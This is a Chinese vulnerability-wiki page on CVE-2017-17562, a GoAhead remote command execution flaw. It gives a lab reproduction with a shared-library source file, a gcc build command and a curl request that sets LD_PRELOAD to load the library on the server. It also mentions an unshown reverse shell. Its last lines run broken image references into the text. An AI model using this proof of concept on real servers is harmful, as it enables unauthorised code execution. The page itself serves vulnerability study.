


# （CVE-2017-17562）GoAhead 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：文列2.5.0至3.6.4、CGI可达且动态链接、匹配共享库架构
- 证据范围：与69同核心Vulhub文，72有明确版本和最小输出库，69有独立编译排错/回连扩展，应整合保全

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 输出Hello大小写与代码不完全一致，应以实际结果为准
- 图片引用及描述黏连重复残尾
- 仅说所有Linux PC可编译忽略目标ABI/架构差异，前文交叉编译提示应保留

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST
Body中，发送给`http://www.0-sec.org/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

二、漏洞影响
------------

GoAhead 3.6.5之前的版本（2.5.0 -- 3.6.4）

三、复现过程
------------

启动漏洞环境：

    docker-compose up -d

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

### 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux
PC编译即可。动态链接库源码：

    #include <unistd.h>

    static void before_main(void) __attribute__((constructor));

    static void before_main(void)
    {
        write(1, "Hello: World!\n", 14);
    }

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

    gcc -shared -fPIC ./payload.c -o payload.so

将payload.so作为post body发送：

    curl -X POST --data-binary @payload.so "http://www.0-sec.org:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行：GoAhead远程命令执行漏洞/media/rId25.png)编译一个反弹shell的代码，成功反弹shell：GoAhead远程命令执行漏洞/media/rId26.png)
